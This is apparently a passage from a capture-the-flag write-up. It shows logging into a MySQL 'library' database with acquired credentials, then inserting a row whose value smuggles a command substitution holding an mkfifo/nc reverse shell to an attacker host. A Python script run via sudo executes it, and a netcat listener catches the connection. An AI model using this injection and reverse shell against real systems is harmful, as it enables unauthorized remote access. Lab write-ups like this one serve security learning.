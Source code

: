 ... With the acquired credentials, let's proceed to log in to the database and navigate to the 'dreams' table.

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| library            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.08 sec)

mysql> use library;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)
```

... Next, we'll append another entry ('s4cript') into the table, leveraging a reverse shell within command substitution to execute arbitrary commands.

```bash
INSERT INTO dreams (dreamer, dream) VALUES ('s4cript', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $attacker_ip $attacker_port >/tmp/f)');
Query OK, 1 row affected (0.01 sec)
```

... Now, we establish a listener and execute the Python file, triggering the execution of the reverse shell.

```bash
s4cript> nc -lnvp $attacker_port
listening on [any] $attacker_port ...

Then exeute th ePython file

lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
```
```bash
s4cript> nc -lnvp $attacker_port
listening on [any] $attacker_port ...
connect to [attacker_ip] from (UNKNOWN) [VMip] 47202
```
